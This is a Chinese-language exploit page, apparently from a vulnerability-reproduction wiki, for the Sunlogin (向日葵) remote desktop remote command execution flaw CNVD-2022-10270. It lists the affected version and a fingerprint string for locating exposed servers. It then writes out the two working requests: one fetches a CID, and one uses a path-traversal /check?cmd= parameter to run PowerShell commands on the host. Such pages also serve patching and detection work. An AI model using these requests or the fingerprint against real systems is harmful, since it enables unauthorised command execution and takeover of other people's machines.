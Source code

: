```yaml
---
Title: 向日葵 check 远程命令执行漏洞 CNVD-2022-10270
---
```


# 向日葵 check 远程命令执行漏洞 CNVD-2022-10270

## 漏洞描述

向日葵通过发送特定的请求获取CID后，可调用 check接口实现远程命令执行，导致服务器权限被获取

## 漏洞影响

<a-checkbox checked>11.0.0.33162</a-checkbox></br>

## 网络测绘

<a-checkbox checked>body="Verification failure"</a-checkbox></br>

## 漏洞复现

向日葵在开启后会默认在 40000-65535 之间开启某端口

![img](../../../.vuepress/public/img/1645007224265-6dd3bed6-0d66-433d-96db-2532796ded2a.png)

发送请求获取CID

```javascript
/cgi-bin/rpc?action=verify-haras
```

![img](../../../.vuepress/public/img/1645007276844-29bf52d8-e4c4-4ece-8d9e-a5e2386de7c2.png)

使用获取到的 verify_string 作为 cookie的 CID字段，进行命令执行

```javascript
/check?cmd=ping..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fwindows%2Fsystem32%2FWindowsPowerShell%2Fv1.0%2Fpowershell.exe+ipconfig
```

![img](../../../.vuepress/public/img/1645007355798-42ab03f8-8652-4daf-a4c3-29938ce2f000.png)